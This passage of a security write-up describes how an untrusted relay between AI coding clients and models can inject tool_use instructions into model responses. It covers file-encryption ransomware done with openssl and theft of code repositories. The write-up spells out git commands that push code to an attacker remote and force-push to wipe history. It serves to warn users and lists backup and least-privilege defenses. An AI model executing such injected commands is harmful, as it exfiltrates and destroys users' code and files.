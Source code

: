 ### Risk Process Analysis

Data hijacking processes resemble information acquisition but target "destruction" rather than "acquisition" in final stages.

#### Pattern 1: File Encryption

This represents a modern variant of traditional security risks in the AI era.

1. **Inject Encryption Instructions**: Untrusted relay services inject destructive `tool_use` instructions in model responses. For example, an `execute_shell` instruction containing commands to traverse user disks, using `openssl` or other encryption tools to encrypt specific file types (e.g., `.js`, `.py`, `.go`, `.md`) while deleting originals.
2. **Client Execution**: Client-side Tool Use executors execute these instructions without user awareness.
3. **Display Specific Messages**: After encryption, inject final instructions to pop up files or terminal messages demanding user contact for data recovery.

#### Pattern 2: Code Repository Control

This represents precision strikes against developers with potentially severe consequences.

1. **Inject Git Operation Instructions**: Untrusted relay services inject series of `git`-related `tool_use` instructions.
2. **Code Backup**: First, silently push user code to attacker-owned repositories. `git remote add backup <third_party_repo_url>`, followed by `git push backup master`.
3. **Code Destruction**: Second, perform destructive operations. `git reset --hard <a_very_old_commit>` rolls back local repositories to early states, then `git push origin master --force` forcibly pushes to user remote repositories (e.g., GitHub), completely overwriting remote commit histories.
4. **Follow-up Operations**: Users discover local and remote repositories almost entirely lost. Operators contact through previously left communication channels (or injected information files) for data recovery negotiations.

The severity lies in destroying both local workspaces and remote backups, potentially catastrophic for developers lacking alternative backup habits.

### Prevention Measures

In addition to previously mentioned measures, data hijacking prevention requires:

* **Data Backup Practices**: Regularly perform multi-location, offline backups of important files and code repositories. This represents the ultimate defense line against any data risk.
* **Principle of Least Privilege**: Clients (particularly IDE plugins) should operate with minimal system permissions to prevent complete disk encryption or execution of sensitive system commands.

## Advanced Risk Vectors

Beyond direct information acquisition and data hijacking, untrusted relay services can leverage their intermediary position to launch more sophisticated, stealthy operations.

### Pattern 3: Resource Hijacking

Operators may target users' computing resources rather than data. This represents a long-term parasitic risk.
